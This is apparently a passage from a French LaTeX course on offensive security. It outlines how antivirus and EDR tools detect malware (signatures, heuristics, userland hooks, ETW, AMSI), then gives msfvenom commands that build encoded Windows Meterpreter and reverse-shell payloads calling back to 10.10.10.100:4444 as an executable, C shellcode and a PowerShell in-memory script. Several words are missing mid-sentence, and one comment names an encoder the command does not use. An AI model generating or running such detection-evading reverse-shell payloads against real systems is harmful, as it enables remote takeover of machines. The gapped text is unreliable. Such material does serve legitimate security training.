 \begin{itemize}
    \item \textbf{Détection statique (signature) :} Analyse du fichier au repos —
          recherche de séquences d'octets connues (\textit{byte patterns}),
          hashes de fichiers malveillants connus ().
    \item \textbf{Détection comportementale (heuristique) :} Analyse du
          comportement à l'exécution, accès à , injection dans
          d'autres processus, connexions réseau suspectes, modifications du
          registre.
    \item \textbf{Hooks \textit{userland} :} L' injecte une 
          dans chaque processus et \textit{hooké} les fonctions 
          Windows sensibles (ex.~: \texttt{NtCreateThread},
          \texttt{ReadProcessMemory}) pour intercepter les appels suspects.
    \item \textbf{ETW (\textit{Event Tracing for Windows}) :} Infrastructure
          de journalisation kernel interceptant les appels système et les
          événements de sécurité, utilisée par les  pour
          corréler les actions.
    \item \textbf{AMSI (\textit{Antimalware Scan Interface}) :} Interface
          permettant aux  de scanner le contenu des scripts
          (PowerShell, VBScript, JScript) \textit{avant} exécution.
\end{itemize}

\section{Obfuscation et Génération de Payloads}
\label{sec:obfuscation}

\subsection{Msfvenom avec Encodage}
\label{subsec:msfvenom}

\begin{lstlisting}[language=bash, caption={Msfvenom, génération de payload obfusqué}]
# Payload Windows 64 bits avec encodeur shikata_ga_nai (5 itérations)
# IMPORTANT : payload windows/x64 pour cible 64 bits
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.10.100 LPORT=4444 \
         -e x64/xor_dynamic -i 5 \
         -f exe -o payload_x64.exe

# Générer en format C (pour intégration dans du code custom)
msfvenom -p windows/x64/shell_reverse_tcp \
         LHOST=10.10.10.100 LPORT=4444 \
         -f c -o shellcode.c

# Format PowerShell (injection en mémoire)
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.10.100 LPORT=4444 \
         -f ps1 -o payload.ps1
\end{lstlisting}

